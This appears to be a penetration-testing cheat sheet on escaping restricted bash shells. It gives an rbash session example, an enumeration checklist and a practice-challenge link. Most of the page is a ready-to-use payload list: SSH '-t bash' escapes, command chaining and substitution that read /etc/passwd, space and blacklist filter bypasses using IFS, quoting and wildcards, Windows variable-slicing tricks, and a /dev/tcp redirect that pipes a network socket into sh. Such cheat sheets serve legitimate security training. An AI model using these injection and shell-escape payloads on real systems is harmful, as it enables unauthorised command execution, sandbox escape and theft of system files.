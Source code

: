```yaml
---
description: Bypass restricted shells
---
```


# Restricted shells

## Example for restricted shell

```text
root@Desktop: ~ #ssh -6 user@fe80::XXXXX:2c74%wlan0 
user@fe80::XXXXX:2c74%wlan0 's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-34-generic x86_64) 
Documentation:  https://help.ubuntu.com 
Management:     https://landscape.canonical.com 
Support:        https://ubuntu.com/advantage 
Last login: Fri Jul 12 14:15:45 2019 from fe80::XXXXX:2c74%wlan0  
jail@HOST:~$ -rbash: /dev/null: restricted: cannot redirect output 
bash: _upvars: -a0': invalid number specifier  
-rbash: /dev/null: restricted: cannot redirect output  
bash: _upvars: -a0': invalid number specifier 
-rbash: /dev/null: restricted: cannot redirect output 
bash: _upvars: -a0': invalid number specifier  
-rbash: /dev/null: restricted: cannot redirect output  
bash: _upvars: -a0': invalid number specifier 
     
user@HOST:~$ vim 
-rbash: /usr/lib/command-not-found: restricted: cannot specify /' in command names  
jail@HOST:~$ exit 
logout  
-rbash: /usr/bin/clear_console: restricted: cannot specify /' in command names 
Connection to fe80::XXXXX:2c74%wlan0  closed. 
 
```

First: 

1. Check 'echo $PATH' 
2. Ls  to check what command in the $path \(ls -l /home/student/.bin\) 
3. Fix path  export PATH=/bin:/usr/bin 

**Enumeration Linux Environment Enumeration is the most important part**. We need to enumeration the Linux environmental to check what we can do to bypass the rbash. 

We need to enumerate :  

1. First we must to check for available commands like cd/ls/echo etc.  
2. We must to check for operators like &gt;,&gt;&gt;,&lt;,\|.  
3. We need to check for available programming languages like perl,ruby,python etc.  
4. Which commands we can run as root \(sudo -l\).  
5. Check for files or commands with SUID perm.  
6. You must to check in what shell you are : echo $SHELL you will be in rbash by 90%  
7. Check for the Environmental Variables : run env or printenv Now let’s move into Common Exploitation Techniques. 

### Practice

Practice restricted shell escape:

{% embed url="https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells" %}



## SSH

`ssh user@192.168.0.53 -t bash` 

Or 

`ssh user@192.168.0.53 -t /bin/bash` 

Or

`ssh user@192.168.0.53 -t "bash --noprofile"`

## Add Path

`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

## Chaining commands 

```text
original_cmd_by_server; ls 
original_cmd_by_server && ls 
original_cmd_by_server | ls 
original_cmd_by_server || ls    Only if the first cmd fail 
```

## Inside a command 

```text
original_cmd_by_server `cat /etc/passwd` 
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses 

### Bypass without space 

Works on Linux only. 

`cat</etc/passwd` 

`{cat,/etc/passwd}` 

`cat$IFS/etc/passwd` 

`echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd` 

`X=$'uname\x20-a'&&$X` 

`sh</dev/tcp/127.0.0.1/4242` 

### Commands execution without spaces, $ or { } - Linux \(Bash only\) 

``IFS=,;`cat<<<uname,-a``

Works on Windows only. 

`ping%CommonProgramFiles:~10,-18%IP` 

`ping%PROGRAMFILES:~10,-5%IP` 

### Bypass with a line return 

`something%0Acat%20/etc/passwd` 

### Bypass Blacklisted words 

**Bypass with single quote** 

`w'h'o'am'i` 

**Bypass with double quote** 

`w"h"o"am"i` 

**Bypass with backslash and slash** 

`w\ho\am\i` 

`/\b\i\n/////s\h` 

**Bypass with $@** 

`who$@ami` 

echo $0 

-&gt; /usr/bin/zsh 

echo whoami\|$0 

**Bypass with variable expansion** 

`/???/??t /???/p??s??` 

test=/ehhh/hmtc/pahhh/hmsswd 

cat ${test//hhh\/hm/} 

cat ${test//hh??hm/} 

**Bypass with wildcards** 

`powershell C:\*\*2\n??e*d.*? # notepad` 

`@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc` 

